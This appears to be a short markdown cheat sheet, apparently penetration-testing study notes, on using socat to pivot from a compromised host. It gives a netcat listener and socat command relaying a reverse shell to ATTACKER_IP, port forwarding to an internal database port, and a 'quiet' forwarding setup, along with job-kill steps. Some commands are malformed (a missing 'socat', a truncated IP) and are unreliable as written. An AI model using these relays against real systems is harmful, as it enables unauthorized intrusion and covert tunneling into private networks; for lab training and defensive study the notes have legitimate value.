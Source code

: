 ## socat
*So cat can be used for port forwarding,reversing tunneling and more and it can create encrypted connections and can relay connections from target to attacker*

first we need to download socat on the target box 
### Reverse shell Relay

first we create listener on our machine 
```
nc -lvnp 443
```
then we run socat to reverse connection 
```
./socat tcp-l:8000 tcp:ATTACKER_IP:443 &
```
### Port forwarding 

to do Port forwarding using socat 
e.g.
 if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:
 ```
 ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
**fork** is used to put every connection into a new process
**reuseaddr** to make ports stays open after a connection is made

### Port forwarding --Quiet
to run port forwarding quietly we need to run 

On our attacker machine:
```

socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

Next, on compromised server

```
./ tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```
this makes connection between our listening port 8001 on the attacking machine and the open port of the target machine

e.g.

```
./socat tcp:10.50.73.2:8001 tcp:10.10.10.:80,fork &
```

to stop connections run 
```
jobs 
kill %NUMBER
```
